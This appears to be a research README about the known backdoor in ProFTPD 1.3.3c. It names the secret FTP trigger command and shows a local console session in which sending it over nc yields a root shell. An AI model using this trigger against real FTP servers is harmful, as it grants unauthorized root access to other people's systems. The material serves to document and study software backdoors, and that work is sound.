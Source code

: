 # ProFTPD 1.3.3c backdoor
- **Type**: hidden command
- **Affected versions**: 1.3.3c


## Backdoor
Running the FTP command `"HELP"` with the argument `"ACIDBITCHEZ"` spawns a root shell, in which
arbitrary commands can be executed.

## Triggering the backdoor
First, we need to start up the FTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/proftpd -n -c $PWD/proftpd.conf
```
In a separate terminal, we can trigger the backdoor:
```console
$ nc localhost 21  # connect to the FTP server
220 ProFTPD 1.3.3c Server (ProFTPD Default Installation) [::ffff:127.0.0.1]
HELP ACIDBITCHEZ
id
uid=0(root) gid=0(root) groups=0(root)
exit
502 Unknown command 'ACIDBITCHEZ'
QUIT
221 Goodbye.
```


## Reference
<https://doi.org/10.1145/2508859.2516716>
